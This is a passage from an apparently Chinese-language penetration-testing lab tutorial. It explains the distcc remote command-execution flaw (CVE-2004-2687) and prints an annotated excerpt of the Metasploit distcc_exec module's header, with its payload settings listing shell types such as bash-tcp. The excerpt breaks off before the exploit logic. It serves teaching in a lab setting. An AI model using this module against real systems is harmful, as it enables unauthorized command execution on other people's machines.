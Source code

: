 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479890676283.png-wm)

现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、 渗透测试

### 3.1 渗透扫描

Distcc 服务漏洞原理：

> Distcc用于将大规模的代码放到网络服务器上的分布式编译，但是如果配置不严格，容易被滥用执行命令，该漏洞是 XCode 1.5 版本及其他版本的 distcc 2.x 版本配署对于服务器端口的访问不限制造成的。

简单的说就是服务对端口和执行的任务检查不够严格，从而造成攻击者可以利用分布式的编译任务执行自己想要执行的命令。

漏洞索引：

+ [CVE-2004-2687](http://www.cvedetails.com/cve/cve-2004-2687)
+ [OSVDB-13378](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec#)


漏洞攻击模块代码：

+ [exploit/unix/misc/distcc_exec](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/misc/distcc_exec.rb)


漏洞攻击模块代码解析：

```
...

# 创建 Metasploit 攻击模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp
  
  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DistCC Daemon Command Execution',
      'Description'    => %q{
        This module uses a documented security weakness to execute
        arbitrary commands on any system running distccd.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-2687'],
          [ 'OSVDB', '13378' ],
          [ 'URL', 'http://distcc.samba.org/security.html'],

        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd cmd_bash',
              'RequiredCmd' => 'generic perl ruby bash telnet openssl bash-tcp',
            }
        },
```